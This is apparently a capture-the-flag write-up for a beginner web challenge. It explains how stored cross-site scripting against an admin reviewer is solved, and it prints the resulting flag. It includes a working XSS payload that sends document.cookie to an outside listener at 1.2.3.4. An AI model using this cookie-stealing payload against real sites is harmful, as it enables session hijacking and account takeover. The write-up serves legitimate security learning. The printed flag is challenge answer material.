


# Government Agriculture Network (web)

## Prompt

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

## Files

* `xss.txt`: XSS exploit used to get flag.
* `flag.txt`: solution to this challenge.

## Solution 

Heading to https://govagriculture.web.ctfcompetition.com/ shows us this lovely little site:



Anytime you see a user input field on a web application in a CTF, there's a good chance that there will be some sort of injection or XSS attack. XSS stands for Cross-Site Scripting and is used to get other visitors of a page to run code that you place on the site. `<script>alert(1)</script>` is the classic test case for XSS, but there are a number of more advanced examples out there in the wild.

What makes this page non-trivial in terms of XSS is that everytime content is submitted, this message is issued:

  

What's interesting about this is that presumably an admin of some sort will look at the content and decide if it's appropriate to be posted. We may not be able to get any visiting user to run our code, but we may be able to get the admin to run it when the admin reviews our post. 

I was very surprised that a beginner's quest would require this, but a publicly facing web server does seem to be required to solve this challenge. The idea is that an administrator on a site will have a cookie that allows privileged access to the site without requiring a login for every single request. If this cookie is used in a request to a malicious site it can be stolen.

There are multiple approaches to setting up a public facing web server/listener and there are a ton of articles on how to do that so I won't go into it. Once you have a listener set up where you can observe requests, a specially crafted XSS string can be sent to the admin.

```
<script type="text/javascript">document.location='http://1.2.3.4:8080?c='+document.cookie;</script>
```

Once the admin opens this, the browser will attempt to fetch a document from our server using the cookie as an argument. Replace `1.2.3.4:8000` with your IP/hostname and port, then click submit! On your server you should see a request that contains the flag!

```
CTF{8aaa2f34b392b415601804c2f5f0f24e}
```
